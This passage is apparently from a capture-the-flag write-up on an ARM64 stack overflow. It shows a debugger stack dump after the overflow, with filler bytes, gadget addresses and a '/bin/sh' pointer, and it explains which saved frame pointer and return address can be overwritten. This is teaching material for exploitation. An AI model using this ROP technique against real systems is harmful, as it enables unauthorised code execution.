 Make sense?  If so, skip this part.

Walkthrough.

Start by setting a breakpoint at `*vulnerable+84`:

```  
0x0000ffffe27d9ad0│+0x0000: 0x0000ffffe27d9b60  →  0x4242424242424242    ←
$x29, $sp  
0x0000ffffe27d9ad8│+0x0008: 0x00000000004006d8  →  <main+40> mov w0,  #0x0  
0x0000ffffe27d9ae0│+0x0010:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  
0x0000ffffe27d9ae8│+0x0018:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  
0x0000ffffe27d9af0│+0x0020:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  
0x0000ffffe27d9af8│+0x0028:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  
0x0000ffffe27d9b00│+0x0030:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  
0x0000ffffe27d9b08│+0x0038:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  
0x0000ffffe27d9b10│+0x0040:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  
0x0000ffffe27d9b18│+0x0048:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  
0x0000ffffe27d9b20│+0x0050:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  
0x0000ffffe27d9b28│+0x0058:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  
0x0000ffffe27d9b30│+0x0060:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABB[...]"  
0x0000ffffe27d9b38│+0x0068: 0x4141414141414141  
0x0000ffffe27d9b40│+0x0070: 0x4141414141414141  
0x0000ffffe27d9b48│+0x0078: 0x4141414141414141  
0x0000ffffe27d9b50│+0x0080: 0x4141414141414141  
0x0000ffffe27d9b58│+0x0088: 0x4141414141414141  
0x0000ffffe27d9b60│+0x0090: 0x4242424242424242  
0x0000ffffe27d9b68│+0x0098: 0x0000ffff9eac5cbc  →   ldp x19,  x20,  [sp,  #16]  
0x0000ffffe27d9b70│+0x00a0: 0x4343434343434343  
0x0000ffffe27d9b78│+0x00a8: 0x4343434343434343  
0x0000ffffe27d9b80│+0x00b0: 0x4343434343434343  
0x0000ffffe27d9b88│+0x00b8: 0x0000ffff9eae6080  →  <__xpg_basename+120> mov
x0,  x19  
0x0000ffffe27d9b90│+0x00c0: 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f
("/bin/sh"?)  
0x0000ffffe27d9b98│+0x00c8: 0x4444444444444444  
0x0000ffffe27d9ba0│+0x00d0: 0x4444444444444444  
0x0000ffffe27d9ba8│+0x00d8: 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)  
```

We know from the start of `vulnerable` that the stack was allocated for `144`
bytes (see _`ret` doesn't pop_ above), i.e. stack lines 0x0000 - 0x0088
(inclusive) above.  At the top of the stack is `x29`, `x30`, i.e. the
preserved frame pointer and return address for `main`, and we cannot change
them from here.  However at `0x0090` and `0x0098` are the preserved frame
pointer (`x29`) and return address (`x30`) for when `main` _leaves_; these we
can overwrite with `BBBBBBB` and our first gadget.

